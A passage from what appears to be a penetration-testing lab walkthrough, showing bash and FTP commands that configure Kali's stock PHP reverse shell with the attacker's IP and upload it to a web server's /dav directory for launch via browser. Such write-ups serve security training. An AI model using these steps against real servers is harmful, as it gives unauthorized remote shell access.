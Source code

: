 * **Upload a `PHP` reverse shell** via FTP to the `/dav` directory and launch it with the browser

```bash
ls -al /usr/share/webshells/php/
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
vim shell.php
# Change the $ip variable to the Kali Attacker VM IP - 10.10.24.6
```

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

```bash
# Login with FTP again and upload the shell.php
cd /
cd /var/www/
put shell.php
    local: shell.php remote: shell.php
    200 EPRT command successful. Consider using EPSV.
    553 Could not create file.
# The user does not have the necessary permissions in /www
cd /var/www/dav
put shell.php
```

<figure><img src="../../../../.gitbook/assets/image (276).png" alt=""><figcaption></figcaption></figure>
